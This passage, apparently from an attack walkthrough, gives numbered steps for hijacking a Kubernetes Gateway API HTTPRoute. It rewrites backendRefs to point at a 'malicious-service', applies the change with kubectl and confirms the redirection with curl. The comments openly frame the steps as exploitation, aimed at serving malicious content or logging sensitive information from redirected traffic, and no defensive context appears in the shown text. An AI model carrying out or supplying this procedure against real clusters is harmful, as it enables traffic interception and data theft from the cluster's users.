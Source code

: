 ```bash
#     backendRefs:
#     - name: my-service
#       port: 80

# Modify it to redirect to a malicious service called "malicious-service":
#
# apiVersion: gateway.networking.k8s.io/v1beta1
# kind: HTTPRoute
# metadata:
#   name: my-httproute
# spec:
#   rules:
#   - matches:
#     - path:
#         type: PathPrefix
#         value: /
#     backendRefs:
#     - name: malicious-service
#       port: 80

# Explanation: This step involves manually editing the "my-httproute.yaml" file. The key modification is to change the `backendRefs` to point to a malicious service or endpoint controlled by the attacker.  In this example, all traffic will now be sent to a service named "malicious-service."  You may also want to change the hostnames or other matchers.
# Expected Output: The modified YAML file with the altered routing rules.
# Why: To redirect traffic to a controlled service, enabling malicious activities.  This is the core of the exploitation. Ensure the service "malicious-service" exists and is serving malicious content or is logging sensitive information.

```

```bash
# 8. Apply the modified HTTPRoute definition.
kubectl apply -f my-httproute.yaml -n default

# Explanation: This command applies the modified HTTPRoute definition to the cluster, updating the routing rules.
# Expected Output: Confirmation message indicating that the HTTPRoute has been updated.
# Why: To activate the new routing rules, effectively redirecting traffic.

```

```bash
# 9. Verify the redirection.  Access the application via the Gateway and confirm that traffic is being redirected to the malicious service.
#
# This step requires accessing the service through the Gateway's external IP or hostname.  You may need to set up port forwarding or use a tool like `curl` to test the redirection.
#
# Example:
# curl -H "Host: example.com" http://<Gateway-External-IP>

# Explanation: Access the application through the Gateway.  Inspect the response to confirm that the traffic is being redirected to the "malicious-service".  For example, if the "malicious-service" serves a different page or logs the request, the redirection is successful.
# Expected Output: The response from the "malicious-service" instead of the original service.
# Why: To confirm that the traffic redirection is successful.

```
